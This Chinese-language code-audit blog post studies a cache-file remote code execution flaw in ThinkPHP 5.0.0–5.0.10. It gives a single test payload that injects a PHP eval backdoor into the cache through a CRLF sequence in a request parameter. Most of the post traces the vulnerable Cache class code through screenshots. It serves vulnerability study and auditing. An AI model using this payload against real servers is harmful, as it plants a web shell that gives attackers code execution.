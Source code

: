 ```yaml
---
title: "Thinkphp5 RCE"
date: 2020-05-28T17:17:17+08:00
draft: flase
tags: [代码审计]
categories: [php]
comment: true
---
```

Thinkphp5代码执行学习


# Thinkphp5代码执行学习

## 缓存类RCE

- 版本

*5.0.0<=ThinkPHP5<=5.0.10*

- Tp框架搭建

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200517151701.png)

- 环境搭建

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200517151925.png)

- 测试payload

```
?username=syst1m%0d%0a@eval($_GET[_]);//
```

*可以看到已经写入了缓存*

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200518110944.png)

### 漏洞分析

- thinkphp/library/think/Cache.php:126

*先跟踪一下Cache类的set方法*

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200518161622.png)

- thinkphp/library/think/Cache.php:63

*跟踪一下init方法，这里的self::$handler默认值是File，为think\cache\driver\File 类实例*

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200518161904.png)

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200518163409.png)

